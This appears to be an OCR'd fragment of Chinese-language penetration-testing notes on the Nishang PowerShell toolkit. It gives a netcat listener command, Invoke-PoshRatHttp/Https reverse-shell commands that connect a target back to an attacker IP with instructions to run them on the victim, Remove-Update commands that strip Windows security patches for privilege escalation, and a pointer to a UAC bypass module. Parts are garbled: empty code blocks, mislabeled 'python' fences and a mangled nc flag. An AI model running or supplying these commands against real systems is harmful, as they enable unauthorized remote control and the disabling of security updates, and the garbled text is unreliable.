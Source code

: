 ```python
反向连接
nc lup 3333

### 基于http和https  （ Invoke-PoshRatHttp ）

### 此外,还有http的shell(执行完会生成一条命令，然后???)

Invoke-PoshRatHttp -Reverse -IPAddress 192.168.0.103 -Port 3333
Invoke-PoshRatHttps -Reverse -IPAddress 192.168.0.103 -Port 3333

# 然后将生成的命令复制到`目标机`cmd执行，执行完毕会自动消失，然后在本机的powershell下会返回目标机的会话


```



###### 域渗透

在nishang目录下面的ActiveDirectory下面

**疑难杂症**
1.真实案例分析

```python

```



2.各种安全限制

```python
无解析

无权限

无执行
```



###### 系统提权

- 基于数据库
- 基于漏洞（常用，如果电脑没补丁，可以删除补丁）
- 第三方软件

```python
# 查看系统的补丁
systeminfo

# 删除补丁
Remove-Update   # 然后输入补丁编号

# 删除全部补丁
Remove-Update All

# 删除全部的安全补丁
Remove-Update Security

# 删除指定的补丁
Remove-Update KB2761226



#### Bypass  UAC    :   模块:Invoke-PsUACme
UAC (用户账户控制)
Get-Help  获取帮助

```